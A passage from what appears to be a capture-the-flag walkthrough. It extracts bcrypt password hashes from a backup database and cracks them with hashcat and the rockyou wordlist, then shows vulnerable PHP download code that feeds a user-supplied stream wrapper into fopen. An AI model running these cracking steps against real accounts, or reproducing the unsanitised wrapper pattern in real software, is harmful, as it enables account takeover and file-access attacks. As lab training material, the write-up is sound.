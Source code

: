 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756751678565/0158650c-2a19-4ea5-92aa-b90c2745fbf4.png align="center")

### Step 4: Database Analysis

The backup contains several interesting files, including `filedb.sqlite`. Let's examine the database:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756751697646/a6ee96f9-848f-4175-b731-e2a00d585be7.png align="center")

The users table contains password hashes:

**Found hashes:**

```php
eric:$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm
yuri:$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.
admin_ef01cab31aa:$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.
```

### Step 5: Password Cracking

Let's crack these hashes using hashcat:

```bash
# Extract hashes to a file
cut -d ':' -f2 hash.txt > clean_hashes.txt

# Crack using rockyou wordlist
hashcat -m 3200 -a 0 clean_hashes.txt /usr/share/wordlists/rockyou.txt

# Show cracked passwords
hashcat -m 3200 --show clean_hashes.txt
```

**Cracked credentials:**

* `eric:america`
    
* `yuri:mustang`
    

### Step 6: Source Code Analysis

Examining the `download.php` source code reveals a critical vulnerability:

```php
// BETA (Currently only available to the admin) - Showcase file instead of downloading it
} elseif ($_GET['show'] === "true" && $_SESSION['erauser'] === 1) {
    $format = isset($_GET['format']) ? $_GET['format'] : '';
    $file = $fetched[0];

    if (strpos($format, '://') !== false) {
        $wrapper = $format;
        header('Content-Type: application/octet-stream');
    } else {
        $wrapper = '';
        header('Content-Type: text/html');
    }

    try {
        $file_content = fopen($wrapper ? $wrapper . $file : $file, 'r');
        $full_path = $wrapper ? $wrapper . $file : $file;
        // Debug Output
        echo "Opening: " . $full_path . "\n";
        echo $file_content;
    } catch (Exception $e) {
        echo "Error reading file: " . $e->getMessage();
    }
```